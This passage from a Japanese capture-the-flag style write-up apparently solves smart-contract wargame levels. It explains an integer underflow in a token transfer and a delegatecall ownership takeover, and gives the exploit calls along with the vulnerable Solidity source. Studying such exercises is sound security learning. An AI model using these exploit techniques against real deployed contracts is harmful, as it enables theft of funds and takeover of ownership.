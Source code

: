 `_value > balances[msg.sender]` のときに、アンダーフローが発生してしまう。
初期状態で `balances[player]` に20 weiチャージされていたので、21 weiをtransfer
すればアンダーフローが発生する。

```
await contract.transfer(player, 21)
```

## 4. Delegation

```
contract Delegate {

  address public owner;

  function Delegate(address _owner) {
    owner = _owner;
  }

  function pwn() {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  function Delegation(address _delegateAddress) {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  function() {
    if(delegate.delegatecall(msg.data)) {
      this;
    }
  }
}
```

Fallbackメソッドで、`msg.data` の中身をチェックせずにdelegatecallしている。
Delegatecallというのは、別コントラクトのメソッドを、呼び出し元コントラクトの
コンテキストで呼び出す仕組み。つまり、呼び出し先で、呼び出し元のストレージを
読み書きすることができる。
この場合においては、 `Delegate.pwn()` をdelegatecallすれば、 `Delegation` コン
トラクトを `owner` を上書きできる。

```
await contract.sendTransaction({data: web3.sha3("pwn()").substring(0, 10)})
```

## 5. Force
